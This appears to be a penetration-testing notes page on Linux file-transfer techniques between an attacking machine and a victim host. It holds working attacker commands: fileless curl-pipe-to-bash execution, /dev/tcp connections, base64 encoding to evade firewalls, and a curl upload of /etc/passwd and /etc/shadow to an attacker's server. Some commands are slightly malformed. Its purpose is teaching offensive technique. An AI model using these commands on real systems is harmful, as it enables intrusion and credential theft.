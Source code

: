 ```yaml
---
title: Transferring files techniques - Linux
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - linux
  - exploitation
  - file transfer technique
  - backdoors
---
```


# Transferring files techniques  - Linux

## Replicating client-server 

### Setting up a server in the attacking machine 

#### Apache server

Once you have a folder structure such as "/var/www/" or "/var/www/html", and also an Apache server installed, you can serve all files from that path by initiating the service:

```bash
# Start Apache
service apache2 start

# Stop Apache
service apache2 stop

# Restart Apache
service apache2 restart

# See status of Apache server
service apache2 status
```

In Apache, the PHP module loves to execute anything ending in PHP. Also, by default, with Apache, if we hit a directory without an index file (index.html), it will list all the files.

#### Nginx

In Apache, the PHP module loves to execute anything ending in PHP. This is not very safe when allowing `HTTP` uploads, as we are trying to avoid that users cannot upload web shells and execute them.

```bash
# Create a Directory to Handle Uploaded Files
sudo mkdir -p /var/www/uploads/SecretUploadDirectory

# Change the Owner to www-data
sudo chown -R www-data:www-data /var/www/uploads/SecretUploadDirectory

# Create Nginx Configuration File by creating the file /etc/nginx/sites-available/upload.conf with the contents:
server {
    listen 9001;
    
    location /SecretUploadDirectory/ {
        root    /var/www/uploads;
        dav_methods PUT;
    }
}

# Symlink our Site to the sites-enabled Directory
sudo ln -s /etc/nginx/sites-available/upload.conf /etc/nginx/sites-enabled/

# Start Nginx
sudo systemctl restart nginx.service

# If we get any error messages, check /var/log/nginx/error.log. we might see, for instance, port 80 is already in use.
```

Debuggin nginx:

First check: ensure the directory listing is not enabled by navigating to http://localhost/SecretUploadDirectory

Second check: Is default port in nginx already in use?

```bash
# Verifying Errors
tail -2 `/var/log/nginx/error.log`
# and we might check that port 80 could not be binded because is already in use

# See which service is using port 80
ss -lnpt | grep `80`
# we will obtain the service and also the pid. For instance `2811`

# Check pid, for instance pid 2811, and see who is running it
ps -ef | grep "2811"

# Remove NginxDefault Configuration to get around this, we can remove the default Nginx configuration, which binds on port 80.
sudo rm /etc/nginx/sites-enabled/default
```

Finally you can copy to your nging server all files you want to transfer with curl:

```bash
curl -T file.txt
# -T, --upload-file <file>; This transfers the specified local file to the remote URL. -T uses PUT http method
```


#### Simple python server

```shell-session
# Creating a Web Server with Python3
cd /tmp
python3 -m http.server 8000

# Creating a Web Server with Python2.7
python2.7 -m SimpleHTTPServer
```


#### Creating a Web Server with PHP

```shell-session
php -S 0.0.0.0:8000
```


#### Creating a Web Server with Ruby

```shell-session
ruby -run -ehttpd . -p8000
```


### Download files from victim's machine

#### wget

```shell-session
wget http://<SERVERIP>:<SERVERPORT>/<file>
```

#### curl

```shell-session
curl http://http://<SERVERIP>:<SERVERPORT>/<file> -o <OutputNameForFile>
```


### Fileless downloads using Linux

Because of the way Linux works and how pipes operate, most of the tools we use in Linux can be used to replicate fileless operations, which means that we don't have to download a file to execute it.

#### Fileless Download with cURL

```shell-session
curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
```


#### Fileless Download with wget

```shell-session
wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3
```

## Bash downloads

On the server side (attacking machine), setup a server by using one of the methodologies applied above.

On the client side (victim's machine):

```shell-session
# Connecting to the Target Webserver (attacking machine serving the file)
exec 3<>/dev/tcp/$ip/80

# Requesting the file to the server 
echo -e "GET /file.sh HTTP/1.1\n\n">&3

# Printing the Response
cat <&3
```


## SSH downloads and uploads: SCP

SSH implementation comes with an SCP utility for remote file transfer that, by default, uses the SSH protocol. 

Two requirements:

 - we have ssh user credentials on the remote host
 - ssh is open on port 22

On the server's side (attacker's machine):

```shell-session
# Enable the service
sudo systemctl enable ssh

# Start the server
sudo systemctl start ssh

# Check if port is listening
netstat -lnpt
```

From the attacker machine too:

```
# Download file foobar.txt saved in the victim's machin. Command is run from attacker machine connecting to the remote host (victim's machine)
scp username@$IPvictim:foobar.txt /some/local/directory

# Upload file foo.txt saved in attacker machine into the victim's. Command is run from attacker machine connecting to the remote host (victim's machine)
scp foo.txt username@$IPvictim:/some/remote/directory
```



## Base64

To avoid firewall protections we can:

**1.** Base64 encode the file:

```shell-session
base64 file.php -w 0

# Alternative
cat file |base64 -w 0;echo

```

**2.** Copy the base64 string, go to the remote host and decode it and pipe to a file:

```shell-session
echo -n "Looooooong-string-encoded-in-base64" | base64 -d > file.php
# -n: do not output the trailing newline
```

## Web upload

We can use [uploadserver](uploadserver.md).


```bash
# Install
python3 -m pip install --user uploadserver

# As we will use https, we will create a self-signed certificate. This file should be hosted in a different location from the web server folder
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'

# Start the web server
python3 -m uploadserver 443 --server-certificate /location/different/folder/server.pem

# Now from our compromised machine, let's upload the `/etc/passwd` and `/etc/shadow` files.
curl -X POST https://$attackerIP/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
# We used the option --insecure because we used a self-signed certificate that we trust.
```


## Backdoors

See [reverse shells](reverse-shells.md), [bind shells](bind-shells.md), and [web shells](web-shells.md).